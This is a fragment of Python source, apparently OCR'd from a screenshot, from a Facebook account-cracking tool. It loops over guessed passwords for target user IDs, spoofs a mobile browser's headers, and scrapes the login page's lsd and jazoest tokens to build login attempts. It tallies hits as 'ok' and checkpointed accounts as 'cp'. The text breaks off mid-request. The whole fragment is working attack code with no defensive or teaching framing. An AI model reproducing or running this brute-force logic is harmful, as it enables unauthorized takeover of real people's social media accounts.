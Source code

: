         else:

            print(' [✓] Choose Correct One');

            self.diazx(id)

    def __metode__(self, user, __chi__, cebok):

        global ok,cp,loop

        sys.stdout.write(f"\r \x1b[1;96m[Rehan] {loop}|{len(self.id)} [ok][{len(ok)}] [cp][{len(cp)}] ")

        sys.stdout.flush()

        try:

            for pw in __chi__:

                pw = pw.lower()

                session=requests.Session()

                header = {

                    "Host":cebok,

                    "upgrade-insecure-requests":"1",

                    "user-agent":"NokiaC3-00/5.0 (08.63) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+",

                    "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",

                    "dnt":"1",

                    "x-requested-with":"mark.via.gp",

                    "sec-fetch-site":"same-origin",

                    "sec-fetch-mode":"cors",

                    "sec-fetch-user":"empty",

                    "sec-fetch-dest":"document",

                    "referer":"https://m.facebook.com/",

                    "accept-encoding":"gzip, deflate br",

                    "accept-language":"en-GB,en-US;q=0.9,en;q=0.8"

                }

                r = session.get(f"https://{cebok}/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F", headers=header)

                das = {

                    "lsd":re.search('name="lsd" value="(.*?)"', str(r.text)).group(1),

                    "jazoest":re.search('name="jazoest" value="(.*?)"', str(r.text)).group(1),

                    "uid":user,
